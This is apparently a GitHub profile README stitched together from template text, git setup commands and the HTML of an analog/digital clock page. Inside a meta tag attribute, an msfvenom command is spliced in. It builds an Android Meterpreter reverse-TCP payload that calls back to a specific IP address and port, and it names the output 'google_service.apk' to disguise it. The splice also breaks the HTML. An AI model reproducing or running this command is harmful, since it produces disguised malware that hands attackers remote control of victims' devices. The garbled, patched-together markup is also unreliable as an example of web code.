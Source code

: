 - 👋 Hi, I’m @Musa99999
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
Musa99999/Musa99999 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
echo "# digital-analog-" >> README.md
git init
git add README.md
git commit -m "first commit"
git branch -M main
git remote add origin https://github.com/Musa99999/digital-analog-.git
git push -u origin main 
<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <meta http-equiv="X-> msfvenom -p andriod/meterpreter/reverse_tcp LHOST=25.8.64.25 LPORT=1234 R > google_service.apk-Compatible" content="ie=edge">
  <title>CloCk</title>
  <link rel="stylesheet" href="style.css">
</head>

<body>

  <div class="container">
    <div class="date">Date</div>
    <div class="day">Today</div>
    <div class="clock">
      <div class="hand hour"></div>
      <div class="hand min"></div>
      <div class="hand sec"></div>
      <div style="--i:1" class="letter"><b>1</b></div>
      <div style="--i:2" class="letter"><b>2</b></div>
      <div style="--i:3" class="letter"><b>3</b></div>
      <div style="--i:4" class="letter"><b>4</b></div>
      <div style="--i:5" class="letter"><b>5</b></div>
      <div style="--i:6" class="letter"><b>6</b></div>
      <div style="--i:7" class="letter"><b>7</b></div>
      <div style="--i:8" class="letter"><b>8</b></div>
      <div style="--i:9" class="letter"><b>9</b></div>
      <div style="--i:10" class="letter"><b>10</b></div>
      <div style="--i:11" class="letter"><b>11</b></div>
      <div style="--i:12" class="letter"><b>12</b></div>
      <div style="--i:1" class="number">|</div>
      <div style="--i:2" class="number">|</div>
      <div style="--i:3" class="number">|</div>
      <div style="--i:4" class="number">|</div>
      <div style="--i:5" class="number"><b></b></div>
      <div style="--i:6" class="number">|</div>
      <div style="--i:7" class="number">|</div>
      <div style="--i:8" class="number">|</div>
      <div style="--i:9" class="number">|</div>
      <div style="--i:10" class="number"><b></b></div>
      <div style="--i:11" class="number">|</div>
      <div style="--i:12" class="number">|</div>
      <div style="--i:13" class="number">|</div>
      <div style="--i:14" class="number">|</div>
      <div style="--i:15" class="number"><b class="a12"></b></div>
      <div style="--i:16" class="number">|</div>
      <div style="--i:17" class="number">|</div>
      <div style="--i:18" class="number">|</div>
      <div style="--i:19" class="number">|</div>
      <div style="--i:20" class="number"><b></b></div>
      <div style="--i:21" class="number">|</div>
      <div style="--i:22" class="number">|</div>
      <div style="--i:23" class="number">|</div>
      <div style="--i:24" class="number">|</div>
      <div style="--i:25" class="number"><b></b></div>
      <div style="--i:26" class="number">|</div>
      <div style="--i:27" class="number">|</div>
      <div style="--i:28" class="number">|</div>
      <div style="--i:29" class="number">|</div>
      <div style="--i:30" class="number"><b class="a12"></b></div>
      <div style="--i:31" class="number">|</div>
      <div style="--i:32" class="number">|</div>
      <div style="--i:33" class="number">|</div>
      <div style="--i:34" class="number">|</div>
      <div style="--i:35" class="number"><b></b></div>
      <div style="--i:36" class="number">|</div>
      <div style="--i:37" class="number">|</div>
      <div style="--i:38" class="number">|</div>
      <div style="--i:39" class="number">|</div>
      <div style="--i:40" class="number"><b></b></div>
      <div style="--i:41" class="number">|</div>
      <div style="--i:42" class="number">|</div>
      <div style="--i:43" class="number">|</div>
      <div style="--i:44" class="number">|</div>
      <div style="--i:45" class="number"><b class="a12"></b></div>
      <div style="--i:46" class="number">|</div>
      <div style="--i:47" class="number">|</div>
      <div style="--i:48" class="number">|</div>
      <div style="--i:49" class="number">|</div>
      <div style="--i:50" class="number"><b></b></div>
      <div style="--i:51" class="number">|</div>
      <div style="--i:52" class="number">|</div>
      <div style="--i:53" class="number">|</div>
      <div style="--i:54" class="number">|</div>
      <div style="--i:55" class="number"><b></b></div>
      <div style="--i:56" class="number">|</div>
      <div style="--i:57" class="number">|</div>
      <div style="--i:58" class="number">|</div>
      <div style="--i:59" class="number">|</div>
      <div style="--i:60" class="number"><b class="a12"></b></div>
    </div>
    <div class="digital">
      <div class="time hours">00</div>
      <div class="time minutes">00</div>
      <div class="time seconds">00</div>
      <div class="time ampm">AM</div>
    </div>
  </div>

  <script src="script.js"></script>
</body>

</html>
